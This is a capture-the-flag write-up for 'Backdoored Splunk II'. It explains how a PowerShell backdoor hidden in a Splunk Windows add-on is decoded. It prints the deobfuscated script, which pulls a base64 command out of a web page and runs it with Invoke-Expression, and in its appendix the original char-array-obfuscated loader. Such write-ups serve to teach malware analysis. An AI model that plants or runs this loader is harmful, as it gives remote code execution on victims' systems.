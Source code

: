 # Backdoored Splunk II

## Description

<small>Author: Adam Rice (@adam.huntress)</small><br><br>You've probably seen Splunk being used for good, but have you seen it used for evil? <br><br> <b>NOTE: the focus of this challenge should be on the downloadable file below. It uses the dynamic service that is started,  but you must put the puzzle pieces together to be retrieve the flag.</b> <br><br> <b>Download the file(s) below and press the <code>Start</code> button on the top-right to begin this challenge.</b>


## Files

* [Splunk_TA_windows.zip](<files/Splunk_TA_windows.zip>)

## Solution

Looking through the files, you can find a suspicious looking PowerShell command (_Appendix_).

You can extract the main content with refinery:
```
emit |r.repl " " ""|r.carve intarray |r.pack |r.carve b64 -lt1 |r.b64
```

You get the following script:
```
# $PORT below is dynamic to the running service of the `Start` button
@($html = (Invoke-WebRequest http://challenge.ctf.games:$PORT -Headers @{Authorization=("Basic YmFja2Rvb3I6dGhpc19pc190aGVfaHR0cF9zZXJ2ZXJfc2VjcmV0")} -UseBasicParsing).Content
if ($html -match '<!--(.*?)-->') {
    $value = $matches[1]
    $command = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($value))
    Invoke-Expression $command
})
```

Making a curl request to the endpoint yields the flag:
```
curl -H "Authorization: Basic YmFja2Rvb3I6dGhpc19pc190aGVfaHR0cF9zZXJ2ZXJfc2VjcmV0" http://challenge.ctf.games:<PORT>
```


## Appendix

```
[STRinG]::JoIN('',[chAr[]](36 , 79 ,83 , 86, 69 ,82 ,32, 61,32,39 , 105, 101, 120 , 32 , 40 ,91 ,83 , 121 , 115 , 116,101 , 109, 46,84 ,101 ,120 , 116 ,46,69 ,110 ,99, 111 , 100, 105 ,110 ,103 ,93, 58 ,58 ,85, 84,70 , 56,46,71 ,101 ,116,83,116, 114 , 105 , 110, 103 ,40 , 91 , 83 ,121 , 115 ,116, 101, 109 , 46 ,67 ,111, 110,118 , 101, 114 ,116 , 93, 58 ,58, 70,114 ,111, 109 ,66,97 , 115, 101,54, 52 , 83 , 116 , 114 ,105 , 110,103,40 ,34,73,121 , 65 , 107,85, 69 , 57 , 83,86 ,67 ,66 ,105,90 ,87, 120, 118 , 100,121, 66,112 ,99,121 , 66 ,107 ,101, 87 , 53 , 104,98 ,87 , 108 , 106, 73 , 72 , 82 , 118 ,73, 72,82 , 111, 90 , 83, 66, 121 , 100 , 87, 53 , 117 ,97 , 87 , 53 , 110, 73,72 ,78, 108 ,99, 110 , 90 , 112, 89,50 ,85 , 103, 98 ,50 ,89,103 , 100,71,104 ,108,73, 71 ,66 , 84, 100, 71, 70 , 121 , 100 ,71 , 65, 103, 89, 110,86,48, 100,71 , 57, 117 , 68, 81, 112,65 ,75 , 67,82,111 ,100 ,71 ,49 , 115 ,73 , 68,48,103, 75 ,69, 108,117,100, 109 ,57,114 , 90 , 83 , 49,88, 90 ,87,74,83,90, 88, 70, 49, 90,88, 78 ,48, 73,71 ,104 ,48 ,100,72 , 65 , 54 ,76, 121, 57,106 , 97,71, 70,115,98 ,71, 86 ,117 , 90, 50,85 ,117,89 , 51 ,82,109,76 ,109, 100, 104,98 ,87 ,86, 122 ,79 , 105, 82 ,81 ,84 , 49,74, 85 , 73,67,49 ,73 , 90 ,87 ,70,107 , 90, 88 , 74,122 ,73,69, 66 ,55 ,81 ,88 , 86 ,48 ,97 ,71 ,57 , 121 ,97,88, 112,104, 100 ,71 ,108, 118,98,106 , 48 ,111,73 ,107, 74, 104,99,50 ,108,106,73,70, 108 , 116, 82,109,112 ,104, 77 ,108, 74 ,50 ,89,106 ,78 , 74 ,78,109 ,82, 72 , 97,72, 66, 106 ,77 , 84 ,108 ,119, 89 , 122,69, 53,77 , 71 , 70 , 72 ,86, 109,90, 104 , 83 , 70,73,119 ,89 , 48, 89 , 53 ,101 ,108, 112, 89 , 83 , 106,74 , 97, 87 ,69,112 , 109 ,89 ,122, 74,87 ,97, 109,78, 116, 86,106 , 65, 105,75, 88 , 48, 103 , 76,86 ,86 ,122, 90 , 85,74 , 104 ,99, 50,108, 106 ,85, 71, 70 ,121,99,50 , 108 , 117 , 90,121 , 107 ,117, 81,50 ,57,117, 100, 71 , 86 , 117, 100 , 65, 48 , 75,97 , 87,89 ,103, 75 ,67, 82 , 111,100 ,71 , 49, 115 ,73 ,67,49 ,116 , 89 , 88, 82,106 ,97 , 67 , 65,110, 80, 67 , 69 , 116 , 76,83 , 103, 117 , 75 ,106 , 56 ,112 ,76 , 83,48,43,74,121 , 107 ,103 , 101,119 ,48 ,75, 73,67 , 65 ,103,73 , 67 , 82, 50,89 ,87, 120,49 ,90 ,83, 65 , 57 , 73, 67, 82, 116 ,89, 88 , 82,106 ,97 ,71, 86,122, 87, 122,70,100 , 68, 81 ,111,103 , 73 ,67,65 , 103 , 74 , 71, 78 ,118, 98 ,87 ,49, 104 ,98 ,109 ,81, 103,80 , 83 , 66, 98 ,85 , 51 , 108, 122 , 100 ,71,86, 116, 76,108 ,82, 108 , 101,72,81,117 ,82,87 ,53 ,106 ,98 , 50, 82 , 112 ,98,109 ,100,100 , 79 , 106 , 112 ,86 ,86 , 69 , 89,52 ,76,107 , 100,108, 100 , 70, 78,48 ,99,109 , 108,117 , 90 , 121, 104 , 98 , 85, 51, 108 ,122, 100, 71, 86, 116 , 76 , 107, 78 ,118 ,98, 110,90, 108 , 99, 110,82,100, 79,106,112, 71,99,109, 57, 116 , 81 , 109 , 70 , 122 , 90 , 84,89 , 48 , 85, 51 , 82,121 , 97 ,87,53, 110,75,67,82 ,50,89 , 87 , 120 , 49 ,90 , 83 , 107 ,112 ,68, 81,111, 103 , 73, 67, 65 ,103 ,83 ,87, 53 ,50 , 98 , 50, 116 , 108, 76,85,86 , 52 ,99 ,72, 74 ,108, 99,51 ,78, 112 ,98, 50 , 52 , 103, 74, 71, 78,118, 98, 87 , 49 ,104 ,98, 109 ,81 , 78 ,67 ,110,48 , 112 , 34,41, 41 , 41,39 )) | &( $PsHomE[21]+$PsHoMe[30]+'X')
```